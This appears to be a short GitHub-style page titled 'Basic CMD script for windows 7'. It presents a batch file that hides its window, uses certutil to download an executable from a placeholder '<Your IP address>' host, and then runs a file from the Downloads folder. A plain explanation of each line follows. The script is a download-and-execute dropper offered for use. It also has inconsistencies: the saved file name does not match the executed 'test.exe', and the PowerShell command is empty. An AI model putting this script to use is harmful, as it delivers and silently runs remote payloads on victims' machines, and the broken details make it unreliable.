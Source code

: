 # Basic CMD script for windows 7

@echo off
powershell -WindowStyle Hidden -Command 
certutil -urlcache -split -f http://<Your IP address>/<Yourname File>.exe C:\Users\Administrator\Downloads\Yourname File.exe
start "" "C:\Users\Administrator\Downloads\test.exe"

@echo off

This command disables the command echoing. It prevents the commands from being shown on the command prompt window when the script runs.

powershell -WindowStyle Hidden -Command

This launches PowerShell in hidden window mode (so the user doesn’t see a new window pop up).

However, in your script, the command part after -Command is missing or on a new line, so it might not work correctly unless you put the full PowerShell command on the same line.

certutil -urlcache -split -f http://<Your IP address>/<yourname file>.exe C:\Users\Administrator\Downloads\<yourname file>.exe

This command downloads a file from the internet using certutil (a built-in Windows tool).

-urlcache -split -f: These options help download the file and split it if needed.

It saves the file to:
C:\Users\Administrator\Downloads\<yourname file>.exe

start "" "C:\Users\Administrator\Downloads\test.exe"

This starts (runs) a file named test.exe from the Downloads folder.

